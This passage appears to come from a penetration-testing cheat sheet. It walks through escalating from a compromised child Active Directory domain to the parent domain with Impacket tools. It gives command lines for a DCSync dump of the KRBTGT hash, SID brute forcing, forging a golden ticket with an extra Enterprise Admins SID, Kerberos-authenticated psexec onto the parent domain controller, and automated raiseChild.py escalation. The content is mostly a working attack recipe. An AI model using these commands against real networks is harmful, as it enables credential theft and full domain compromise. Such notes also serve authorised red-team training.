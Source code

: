 Once we have control over the child domian, we can use **secretsdump.py** to DCSync and grab NTLM for KRBTGT:
```console
zero@pio$ secretsdump.py <CHILD DOMAIN>/<USER>@<IP> -just-dc-user <DOMAIN>/krbtgt
```

Now we can use [lookupsid.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/lookupsid.py) to perform SID brute forcing to find the SID of the child domain. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format **DOMAIN_SID-RID**:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>/<USER>@<IP> 
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>.local/<USER>@<IP> | grep "Domain SID"
```

Now we can rerun the command targeting the parent domain to get the RID of the Enterprise Admin group:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>.local/<USER>@<IP> | grep -B12 "Enterprise Admins"
```

We have now all the data require to launch the attack. We can use [ticketer.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ticketer.py) to execute the attack:
```console
zero@pio$ ticketer.py -nthash <KRBTGT HASH> -domain <CHILD DOMAIN>.LOCAL -domain-sid <CHILD DOMAIN SID> -extra-sid <PARENT DOMAIN SID> hacker
```

The ticket will be saved down to our system as a credential cache (ccache) file. Set the **KRB5CCNAME** environment variable:
```console
zero@pio$ export KRB5CCNAME=hacker.ccache 
```

We will use [psexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py) to authenticate to de DC:
```console
zero@pio$ psexec.py <CHILD DOMAIN>/hacker@<DC COMPUTER NAME>.<PARENT DOMAIN>.local -k -no-pass -target-ip <DC IP>
```

Impacket comes with [raiseChild.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/raiseChild.py), which will automatically escalate privileges. This will obtain everything by they own and execute it:
```console
zero@pio$ raiseChild.py -target-exec <DC IP> <CHILD DOMAIN>.LOCAL/<USER>
```

# Attacking Domain Trust Cross-Forest 

## From Windows 
